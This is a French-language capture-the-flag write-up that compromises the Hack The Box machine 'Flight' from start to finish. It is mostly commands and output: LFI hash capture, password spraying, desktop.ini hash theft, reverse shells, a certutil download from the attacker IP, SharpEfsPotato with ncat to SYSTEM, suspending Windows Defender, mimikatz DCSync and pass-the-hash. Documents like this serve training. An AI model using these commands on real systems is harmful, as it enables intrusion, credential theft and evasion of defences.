








Découverte des services exposés
Nous sommes face à ce qui ressemble à un controlleur de domaine Active Directory exécutant un service Web sur le port 80
$ sudo nmap -sS -Pn -T5 -oA nmap $TARGET_IP
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
Partages
L'authentification nulle nous permet de récupérer le nom DNS.
$ cme smb $TARGET_IP -u "" -p "" | cut -c60-
[*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
[+] flight.htb\:
Site Web (port 80)
Nous sommes face à un site web ne disposant que de fonctionnalités statiques
Les actions suivantes n'offrent aucun vecteur d'attaque :
- La recherche d'erreurs de configuration :
nikto -h http://$TARGET_VHOST - La recherche de dossiers intéressant :
gobuster dir -u http://$TARGET_VHOST:80/ -w "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" -t 50 --add-slash - La recherche d'enregistrements DNS
gobuster dns -d flight.htb -r $TARGET_IP -t 50 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
Découverte du nom de domaine school.flight.htb
On découvre un second site à l'adresse http://school.flight.htb en menant une attaque par dictionnaire sur les sous domaines de flight.htb :
└─$ gobuster vhost --append-domain flight.htb --url flight.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://flight.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent: gobuster/3.4
[+] Timeout: 10s
[+] Append Domain: true
===============================================================
2023/03/08 04:25:23 Starting gobuster in VHOST enumeration mode
===============================================================
Found: school.flight.htb Status: 200 [Size: 3996]
Progress: 4910 / 4990 (98.40%)
===============================================================
2023/03/08 04:25:38 Finished
===============================================================
Présence d'une LFI sur la page d'accueil

En cliquant sur le lien Home on découvre que le fichier index.php affiche des pages via le paramètre view. Après vérification il est vulnérable à une LFI nous permettant de récupérer le hash du compte de service utilisé par le serveur web.
Exploitation de la LFI
On lance un responder avec la commande responder -i tun0 et on tente d'inclure un chemin UNC dans notre requête :

On observe la capture du hash du compte svc_apache dans responder

Le hash récupéré est cassé rapidement à l'aide de john et nous offre un premier compte :
| Utilisateur | Mot de passe |
|---|---|
flight.htb\svc_apache |
S@Ss!K@*t13 |
Enumération des autorisations de svc_apache
L'utilisateur dispose de droits en lecture sur un certain nombre de partages :
└─$ cme smb $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN" --shares | cut -c60-
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
if result['type'] is not 'searchResEntry':
[*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
[+] flight.htb\svc_apache:S@Ss!K@*t13
[+] Enumerated shares
Share Permissions Remark
----- ----------- ------
ADMIN$ Remote Admin
C$ Default share
IPC$ READ Remote IPC
NETLOGON READ Logon server share
Shared READ
SYSVOL READ Logon server share
Users READ
Web READ
Cela ne nous offre néanmoins pas de possibilité d'élever nos privilèges.
Réutilisation du mot de passe sur d'autres comptes
Graâce à ce compte, nous pouvons tout de même énumérer la liste des comptes utilisateurs de l'annuaire Active Directory et vérifier si le mot de passe en notre possession n'est pas utilisé par un autre compte.
Nous découvrons que l'utilisateur s.moon utilise le même mot de passe que le compte svc_apache :
# Creation d'une liste d'utilisateur a attaquer
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt
# Password spraying sur cette liste d'utilisateurs
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success
Nous obtenons ainsi l'accès à un nouveau compte :
| Utilisateur | Mot de passe |
|---|---|
flight.htb\S.Moon |
S@Ss!K@*t13 |
Enumération des autorisations de S.Moon
Cet utilisateur possède un droit d'écriture sur le dossier Shared :
# Présence d'un droit d'écriture sur le partage Shared
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60-
Shared READ,WRITE
Ce dossier est vide et ne semble pas accepter la création de nouveau fichiers.
On constate que l'on peut créer des dossiers, mais la création de fichiers ne semble pas fonctionner.
Après un temps de recherche important, on découvre que cette partie du challenge est finalement totalement iréaliste (mais cela fait partie du jeu dans les CTF : en effet, la création de fichiers .ini est autorisée. (A quoi cela servirait dans la vrai vie, encore plus sur un partage nommé Shared ?).
Une fois cette découverte réalisée en se dirige vers les techniques classiques de vole de hash très bien expliqué sur HackTricks
- On lance donc le responder sur l'interface VPN :
sudo responder -i tun0 - On crée donc un fichier
desktop.inicontenant les éléments suivants :
```text title="desktop.ini" [.ShellClassInfo] IconFile=\10.10.14.149\blah IconIndex=1337
On upload ensuite ce fichier :
- soit avec smbmap
```shell title="upload du fichier"
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
- Ou avec smbclient.py :
$ smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"
use shared
put desktop.ini
- On attend quelques instants et on récupère le hash d'un nouvel utilisateur : 
- Que l'on s'empresse de casser avec la commande
john --wordlist=/usr/share/wordlists/rockyou.txt SMB-NTLMv2-SSP-10.10.11.187.txt
On récupère ainsi un nouvel utilisateur :
| Utilisateur | Mot de passe |
|---|---|
flight.htb\c.bum |
Tikkycoll_431012284 |
Enumération des autorisations de c.bum
On vérifie si cet utilisateur dispose d'avantage de permissions sur les partages :
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60- | grep -i WRITE
Shared READ,WRITE
Web READ,WRITE
On reconnaît dans le partage Web une arborescence qui est en fait celle des 2 virtual hosts précédemment énuméré.
Obtention d'un premier shell
L'accès à ce partage étant en écriture, on a (enfin) la possibilité d'obtenir un reverse shell
On upload un reverse shell PHP puis on l'exécute :
- On lance un listener avec
rlwrap nc -lnvp 1337 - On edite le fichier pour configurer l'IP et le port de notre listener
- On l'upload : `smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload revshell.php Web/school.flight.htb/rebrec1.php
- On exécute finalement le reverse shell :
curl -X GET http://$TARGET_IP/rebrec1.php -H "Host: school.flight.htb"
On obtient ainsi un premier shell en tant qu'utilisateur svc_apache

Elevation de privilèges en tant que c.bum
On utilise ensuite l'outil RunasCs.exe pour exécuter un nouveau reverse shell en tant que c.bum :
- On lance un listener :
rlwrap nc -lnvp 1338 - On télécharger notre outil :
```shell title="Téléchargement d'un fichier à l'aide de certutil" certutil.exe -urlcache -split -f "http://10.10.14.149:1234/RunasCS.exe" RunasCS.exe certutil.exe -urlcache -split -f "http://$($LHOST):$LPORTW_WIN_TOOLS/$File" $Dest
- On exécute le reverse shell :
RunasCS.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.149:1338
### Enumération locale
On constate la présence du dossier `c:\inetpub`, dossier caractéristique de la présence d'un serveur web IIS.
Cette fonctionnalité est toujours installée :
```powershell
PS C:\> get-windowsfeature web-server | fl DisplayName, InstallState
DisplayName : Web Server (IIS)
InstallState : Installed
Et le processus est en cours d'exécution :
PS C:\xampp\htdocs\school.flight.htb> Get-Process w3wp
Handles NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
497 40 76040 63584 4360 0 w3wp
Après vérification, on constate que c.bum dispose de droits en écriture sur le dossier à l'aide de la commande accesschk.exe -accepteula -w c:\inetpub (il faut au préalable l'uploader sur la machine)

Elevation de privilèges
Upload du reverse shell
On upload donc un reverse shell dans le dossier c:\inetpub\development. Le reverse shell doit être un fichier .aspx, on utilise celui-ci après avoir modifier son entête pour y configurer notre adresse IP et port sur lequel s'exécutera un nouveau listerner que l'on lance une fois de plus avec rlwrap nc -lnvp 1339
Exécution
Pour trouver sur quel port le service IIS est en écoute, nous utilisons la commande suivante :
PS > Get-NetTCPConnection -State Listen | Select-Object -Property @{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}},LocalPort
ProcessName LocalPort
----------- ---------
dfsrs 49731
dns 49694
services 49682
lsass 49674
lsass 49673
lsass 49667
svchost 49666
svchost 49665
wininit 49664
System 47001
Microsoft.ActiveDirectory.WebServices 9389
System 8000
System 5985
lsass 3269
lsass 3268
lsass 636
svchost 593
lsass 464
System 445
httpd 443
lsass 389
svchost 135
lsass 88
httpd 80
dns 53
dns 53
dns 53
dns 53
dfsrs 49731
dns 49694
services 49682
lsass 49674
lsass 49673
lsass 49667
svchost 49666
svchost 49665
wininit 49664
Microsoft.ActiveDirectory.WebServices 9389
lsass 3269
lsass 3268
lsass 636
svchost 593
httpd 443
lsass 389
System 139
svchost 135
httpd 80
dns 53
dns 53
Le résultat obtenu ne nous permet pas directement d'identifier le ports en écoute car cette commande n'affiche pas le nom des processus de privilèges plus élevés.
Ainsi, un certain nombre de lignes ont pour nom de processus System au lieu du processus réel (w3wp dans notre cas).
Après élimination des processus autre que System, nous obtenons la liste de ports potentiels suivante :
PS > Get-NetTCPConnection -State Listen | Select-Object -Property @{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}},LocalPort | ? {$_.ProcessName -eq 'system'}
ProcessName LocalPort
----------- ---------
System 47001 ?
System 8000 ?
System 5985 ?
System 445 <== microsoft-ds
System 139 <== netbios-ssn
Il nous reste donc 3 ports à tester.
Nous utilisons depuis notre shell le CmdLet powershell Invoke-WebRequest :
PS C:\rebrec> iwr http://127.0.0.1:8000 -outfile a.html -v
VERBOSE: GET http://127.0.0.1:8000/ with 0-byte payload
VERBOSE: received 45949-byte response of content type text/html
Les autres ports testés ne retournaient pas de données. Nous savons donc que le service s'exécute très probablement sur le port 8000
Le reverse shell .aspx copié dans le dossier c:\inetpub\development, nous l'exécutons via la commande powershell :
PS C:\rebrec> iwr http://127.0.0.1:8000/revshell.aspx -outfile a.html
et obtenons un shell en tant que :
c:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
Escalade de privilèges vers System
Nous découvrons rapidement que le compte iis apppool\defaultapppool dispose du privilèges SeImpersonatePrivilege, nécessaire à l'exploitation des vulnérabilités de la famile des "Potato" (RoguePotato, etc.)
Après une brève lecture sur ce type d'attaques sur cette page d'hacktricks, on téléchargerSharpEfsPotato, qui, une fois compilé avec visual studio, puis uploadé sur notre cible nous permet de lancer un dernier reverse shell en tant que SYSTEM
Pour ce faire, on uploadera l'utilitaire ncat.exe et on exécutera :
SharpEfsPotato.exe -p ncat.exe -a "10.10.14.149 1500 -e cmd.exe"
SharpEfsPotato by @bugch3ck
Local privilege escalation from SeImpersonatePrivilege using EfsRpc.
Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.
[+] Triggering name pipe access on evil PIPE \\localhost/pipe/0e8462f4-fa42-4fbe-9dcf-eefc70c83679/\0e8462f4-fa42-4fbe-9dcf-eefc70c83679\0e8462f4-fa42-4fbe-9dcf-eefc70c83679
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```shell title="reverse shell en tant que SYSTEM"
C:\Windows\system32>whoami whoami nt authority\system
On récupère le flag avec la commande
type c:\users\administrator\desktop\root.txt
## Bonus : compromission totale de l'Active Directory
Pour le plaisir, et dans l'optique de simuler une action de persistance sur l'active directory, on va maintenant récupérer la base NTDS.DIT (base de donnée contenant les hashes de tous les comptes utilisateurs de l'active directory).
Nous utiliserons l'outil le plus connu à savoir, l'incontournable `Mimikatz`.
Cet outil était détecté par tous les antivirus qui se respecte, nous vérifions tout d'abord si un Anti Virus s'exécute sur la machine en affichant la liste des processus s'exécutant sur la machine :
```powershell
PS > get-process | Select Name | sort
#[...]
MsMpEng
#[...]
On reconnaît le processus MsMpEng qui est le module anti malware de Windows Defender.
On le désactive en suspendant ce processus :
# on dépose sur la machine pssuspend.exe depuis live.sysinternals.com
PS > ./pssuspend.exe -accepteula MsMpEng
PsSuspend v1.07 - Process Suspender
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals
Process MsMpEng suspended.
On peut maintenant agir sans risquer de se faire détecter par Windows Defender :
- On upload
Mimikatz.exe - On exécute ensuite :
mimikatz.exe "lsadump::dcsync /domain:flight.htb /all /csv"
Vérification des accès
Grace à ces hashes collectés, nous pourrons nous reconnecter via l'attaque Pass The Hash à distance à la machine en tant qu'administrateur du domaine, sans disposer du mot de passe de cet utilisateur :
Accès distant
=== "wmiexec.py"
```shell title="Utilisation du Hash NT récupéré avec wmiexec.py"
$ wmiexec.py -hashes :43bbfc530bab76141b12c8446e30c17c -dc-ip $TARGET_IP flight.htb/Administrator@$TARGET_IP whoami
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] SMBv3.0 dialect used
flight\administrator
```
=== "psexec.py"
```shell title="Utilisation du Hash NT récupéré avec psexec.py"
$ psexec.py Administrator@$TARGET_IP -hashes :43bbfc530bab76141b12c8446e30c17c
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Requesting shares on 10.10.11.187.....
[*] Found writable share ADMIN$
[*] Uploading file BVTQqKla.exe
[*] Opening SVCManager on 10.10.11.187.....
[*] Creating service gxjC on 10.10.11.187.....
[*] Starting service gxjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
```
=== "crackmapexec.py"
```shell title="Utilisation du Hash NT récupéré avec crackmapexec"
└─$ cme smb $TARGET_IP -u Administrator -H 43bbfc530bab76141b12c8446e30c17c --shares | cut -c60-
[*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
[+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
[+] Enumerated shares
Share Permissions Remark
----- ----------- ------
ADMIN$ READ,WRITE Remote Admin
C$ READ,WRITE Default share
IPC$ READ Remote IPC
NETLOGON READ,WRITE Logon server share
Shared READ
SYSVOL READ Logon server share
Users READ
Web READ
```
Le gros intérêt de la récupération des Hash réside dans le fait que l'on ne modifie pas le mot de passe du compte. L'utilisateur peut donc ne pas se rendre compte que son compte est compromis.
Cette accès restera fonctionnel tout pendant que le mot de passe de cet utilisateur ne sera pas modifié (et donc son hash).